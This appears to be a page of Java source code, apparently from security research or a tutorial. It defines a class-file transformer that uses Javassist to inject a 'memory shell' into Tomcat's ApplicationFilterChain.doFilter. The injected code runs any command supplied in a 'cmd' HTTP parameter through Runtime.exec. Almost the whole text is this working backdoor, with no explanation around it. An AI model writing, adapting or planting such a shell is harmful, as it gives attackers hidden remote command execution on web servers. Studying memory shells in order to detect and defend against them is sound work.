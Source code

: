 ```plain
public class TransformerDemo implements ClassFileTransformer {
    public static String editClassName = "org.apache.catalina.core.ApplicationFilterChain";
    public static String editMethod = "doFilter";
    public static String memshell = "" +
            "    javax.servlet.http.HttpServletRequest req =  $1;\n" +
            "    javax.servlet.http.HttpServletResponse res = $2;\n" +
            "    java.lang.String cmd = req.getParameter(\"cmd\");\n" +
            "\n" +
            "    if (cmd != null){\n" +
            "       System.out.println(cmd);" +
            "        try {\n" +
            "            java.lang.Runtime.getRuntime().exec(cmd);\n" +
            "        } catch (Exception e){\n" +
            "            e.printStackTrace();\n" +
            "        }\n" +
            "    }\n" +
            "    else{\n" +
            "        internalDoFilter(req,res);\n" +
            "    }\n" +
            "";

    @Override
    public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) throws IllegalClassFormatException {
        ClassPool classPool = ClassPool.getDefault();

        // 添加额外的类搜索路径
        if (classBeingRedefined != null) {
            ClassClassPath classClassPath = new ClassClassPath(classBeingRedefined);
            classPool.insertClassPath(classClassPath);
        }

        // 修改方法doFilter()，返回 byte[] 字节码
        try {
            CtClass ctClass = classPool.get(editClassName);
            CtMethod ctMethod = ctClass.getDeclaredMethod(editMethod);
            ctMethod.insertBefore(memshell);
            ctClass.writeFile("/Users/d4m1ts/d4m1ts/java/Temp/out/artifacts/temp_jar");
            System.out.println(memshell);
            System.out.println("injection success");
            byte[] bytes = ctClass.toBytecode();
            ctClass.detach();
            return bytes;

        } catch (NotFoundException e) {
            e.printStackTrace();
        } catch (CannotCompileException e) {
            e.printStackTrace();
        } catch (IOException e) {
            e.printStackTrace();
        }


        return new byte[0];
    }
}

```
